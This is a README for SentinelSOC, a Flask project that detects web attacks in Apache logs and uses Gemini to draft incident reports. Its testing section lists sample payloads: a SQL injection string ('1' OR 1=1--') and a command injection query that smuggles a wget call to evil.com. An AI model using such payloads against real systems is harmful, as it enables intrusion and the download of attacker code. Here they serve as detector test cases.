




# SentinelSOC

## AI-Assisted Security Operations Center (SOC) Alert Analysis Platform

SentinelSOC is a Python-based security monitoring platform that parses web server logs, detects suspicious activity, and uses generative AI to assist security analysts with incident investigation.

The application simulates a simplified SOC workflow by collecting log data, identifying potential attacks using custom detection rules, presenting alerts through a web dashboard, and generating AI-assisted incident reports containing technical analysis, MITRE ATT&CK mappings, risk assessments, and recommended response actions.

---

# Demo


## Dashboard



The dashboard provides a centralized view of detected security events, including attack type, severity, source IP, endpoint, and timestamp.

## AI Incident Analysis





Each alert can be reviewed with an AI-generated security report containing investigation details and remediation recommendations.

## Error Handling

**AI Integration Error Handling: Demonstrates SentinelSOC's ability to handle temporary AI service failures without crashing the application.**

---

# Features

## Log Analysis

* Parses Apache web server access logs
* Extracts:

  * Source IP address
  * Timestamp
  * HTTP method
  * Requested endpoint
  * HTTP status code
  * Response size

## Attack Detection

Custom detection logic identifies suspicious web activity including:

* SQL Injection attempts
* Command Injection attempts

Detection is performed using configurable regular expression-based rules.

## SOC Dashboard

Provides a web-based analyst interface displaying:

* Security alerts
* Severity classification
* Source information
* Attack details
* Investigation results

## AI-Assisted Investigation

Integrates Google's Gemini API to generate analyst-style reports including:

* Executive Summary
* Technical Explanation
* MITRE ATT&CK Mapping
* Risk Assessment
* Recommended Response Actions

---

# Architecture

```
                Apache Access Logs
                       |
                       v
                Log Parser
                       |
                       v
              Detection Engine
                       |
          ------------------------
          |                      |
          v                      v
    Alert Dashboard       AI Analysis Engine
                                  |
                                  v
                         Incident Report
```

---

# Detection Workflow

1. User uploads a web server log file
2. SentinelSOC parses the log entries
3. Detection rules analyze request endpoints
4. Suspicious activity generates security alerts
5. Alerts are displayed in the dashboard
6. Analysts can request AI-generated investigation summaries

---

# Technologies Used

## Backend

* Python
* Flask
* Regular Expressions

## Security Components

* Log parsing
* Pattern-based detection
* Web attack analysis
* Alert generation

## Artificial Intelligence

* Google Gemini API
* AI-generated security analysis

## Frontend

* HTML
* CSS
* Bootstrap

---

# Project Structure

```
SentinelSOC/

├── app.py
├── requirements.txt
├── README.md
├── .gitignore
│
├── ai/
│   ├── prompts.py
│   └── summarize.py
│
├── detection/
│   ├── engine.py
│   └── rules.py
│
├── parsers/
│   └── apache_parser.py
│
├── sample_logs/
│   └── apache.log
│
├── templates/
│   ├── index.html
│   ├── dashboard.html
│   └── alert.html
│
│
├── uploads/
│   └── README.txt
│
├── demo/
│   └── SentinelSOC.mp4
│
│
└── screenshots/
```

---

# Installation

## Clone the repository

```bash
git clone https://github.com/crunchy-leaf/SentinelSOC-AI.git

cd SentinelSOC-AI
```

## Create a virtual environment

```bash
python -m venv .venv
```

Activate the environment:

Windows:

```powershell
.\.venv\Scripts\Activate.ps1
```

## Install dependencies

```bash
pip install -r requirements.txt
```

---

# Configuration

Create a `.env` file in the project root:

```
GEMINI_API_KEY=your_api_key_here
```

The API key is used to generate AI-assisted incident analysis.

---

# Running SentinelSOC

Start the Flask application:

```bash
python app.py
```

Open:

```
http://127.0.0.1:5000
```

Upload a sample Apache log file to generate security alerts.

---

# Testing

Sample attack scenarios included:

## SQL Injection

Example:

```
/login?id=1' OR 1=1--
```

Detection result:

```
SQL Injection - High Severity
```

## Command Injection

Example:

```
/search?q=test;wget+http://evil.com
```

Detection result:

```
Command Injection - High Severity
```

---

# Challenges and Lessons Learned

## AI API Integration

Integrating generative AI required troubleshooting API authentication, SDK changes, model availability, and handling external service failures.

Implemented:

* Environment variable configuration
* API error handling
* AI response formatting
* Markdown rendering for generated reports

## Detection Logic Improvements

Initial detection rules required refinement to correctly identify attack variations while reducing false positives.

Improved:

* Regular expression patterns
* Detection engine logic
* Attack classification

## Building a SOC Workflow

The project helped demonstrate how raw security telemetry can be transformed into actionable analyst information through:

* Data collection
* Detection
* Alert generation
* Investigation
* Reporting

---

# Future Improvements

Potential enhancements:

* Add additional log formats (Nginx, Windows Event Logs)
* Integrate threat intelligence APIs
* Add alert search and filtering
* Add historical alert storage database
* Add automated response actions
* Improve AI-generated structured reporting

---

# Author

Cybersecurity project focused on security operations, detection engineering, and AI-assisted analysis.

